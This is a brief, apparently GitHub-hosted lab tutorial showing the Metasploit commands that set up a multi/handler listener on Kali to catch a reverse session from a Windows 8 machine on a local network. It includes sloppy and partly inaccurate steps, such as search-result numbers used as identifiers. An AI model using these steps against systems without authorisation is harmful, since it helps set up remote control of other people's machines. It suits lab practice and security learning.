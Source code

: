 ## STEP:

Check your **IP ADDRESS** for both your kali and your windows8 system ensure to ping to both devices and get a response, go to your kali and start your **POSTGRESQL START** and also your **MSFDB INIT** service.


-**START YOUR MSFCONSOLE**.it primary a command line used to scan target system for known vulnerabilities. 

-**SEARCH MULTI/HANDLER**.

-**USE 7**.

-**SHOW PAYLOADS**.

-**SET PAYLOAD 1315**.

-**SHOW OPTIONS**.

-**SET LHOST TO YOUR IP ADDRESS 192.168.0.15**.

-**SHOW OPTIONS.**

_**EXPLOIT -j**

-**RUN**

TYPE HELP FOR OTHER OPTIONS ON YOUR WINDOWS SYSTEM.

### contribute:
feel free to share your own experience 

### MICHAEL22



